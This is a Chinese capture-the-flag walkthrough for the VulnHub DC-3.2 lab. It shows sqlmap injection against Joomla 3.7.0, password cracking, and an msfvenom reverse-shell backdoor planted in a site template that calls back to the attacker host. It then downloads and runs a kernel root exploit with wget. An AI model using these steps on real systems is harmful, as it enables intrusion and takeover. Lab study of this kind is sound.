



## 复盘 *

## 靶机地址：

[DC: 3.2 ~ VulnHub](https://www.vulnhub.com/entry/dc-32,312/)


## 信息收集

### 主机探活

```
arp-scan -l
```


确定目标主机ip地址：

192.168.6.26

 

### 扫描目标主机开放端口

```
nmap -P- -sS -sV -Pn 192.168.6.26
```


开放了：

- 80 http服务 Apache 2.4.18


 

 

### 访问192.168.6.26


```
This time, there is only one flag, one entry point and no clues.
To get the flag, you'll obviously have to gain root privileges.
How you get to be root is up to you - and, obviously, the system.
Good luck - and I hope you enjoy this little challenge. :-)

这次只有一个flag，一个入口点，没有线索。
要获得flag，你显然需要获取root权限。
如何获得root权限就看你自己了——当然，还有系统。
祝你好运——希望你喜欢这个小挑战。 :-)
```


### dirsearch扫描目录

```
dirsearch -u 192.168.6.26
```




存在

- robots.txt

- README.txt

- /administrator/ （管理员登录界面）

  

### 访问/administrator

管理员登录界面（Joomla）


### 访问robots.txt

Joomla CMS


### 访问README.txt


 

Joomla CMS

 

### wahtweb识别网站指纹信息

```
whatweb -v 192.168.6.26
```


 

确定目标信息

- Apache/2.4.18（Ubuntu）

- CMS：Joomla

 

 

### 使用joomscan扫描

```
Joomscan --url 192.168.6.26
```


确定Joomla版本信息 3.7.0

 

### 搜索漏洞库

```
searchsploit joomla 3.7.0
```


存在sql注入漏洞

 

### 查看该漏洞

```
searchsploit -x 42003
```


提供了sqlmap注入的payload

```
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

 

### 尝试SQL注入

```
sqlmap -u "http://192.168.6.26/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```


成功获取数据库名

- joomladb

 

接着获取表名

```
sqlmap -u "http://192.168.6.26/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" --tables -p list[fullordering]
```


 

存在__users表(注意是两个\_)

 

获取字段名

```
sqlmap -u "http://192.168.6.26/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T  "#__users" --columns -p list[fullordering]
```


存在name和password字段

 

获取name和password数据信息

```
sqlmap -u "http://192.168.6.26/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" -C "name,password" --dump -p list[fullordering]
```


 

### 使用john爆破密码

```
john 2.txt
```


得到密码

- snoopy

 

 

### 成功登录后台


 

寻找可利用的位置


###  通过修改浏览器默认样式注入木马

找到网站样式模块


 


### 利用msfvenom生成后门木马

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.6.5 lport=9999 -f raw >9999.php
```


 

### 将木马写入index.php文件中


### msf监听

进入msf终端

```
msfconsole
```

```
use exploit/multi/handler
```

设置参数

开始监听


访问192.168.6.26/index.php

 

### 成功获取shell


得知当前用户权限www-data

 


## 提权

### python转换终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```


### suid查找

```
find / -perm -u=s -type f 2>/dev/null
```


 

### 查看系统信息

```
uname -a
```

查看系统信息

```
cat etc/issue
```

查看关于操作系统发行版的基本信息





确定为

- Ubuntu 16.04

 

### 搜索可利用漏洞

```
searchsploit Ubuntu 16.04
```




 找到一个提权漏洞


### 下载文件

```
searchsploit -m 39972.txt
```


 

下载exp（可以选择在目标主机上直接wget下载exp）（也可以本地下载然后上传）

 

 

### wget下载exp

```
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
```


 

ls查看


成功下载

 

### unzip解压

```
unzip 39772.zip
```


接着解压exploit.tar文件

```
tar -xf exploit.tar
```


得到ebpf_map_doubleput_exploit文件夹


### 执行compile.sh

```
./compile.sh
```


成功编译


doubleput.c

 

 

### 执行doubleput

```
./doubleput
```


成功获取root权限

 

### 获取flag

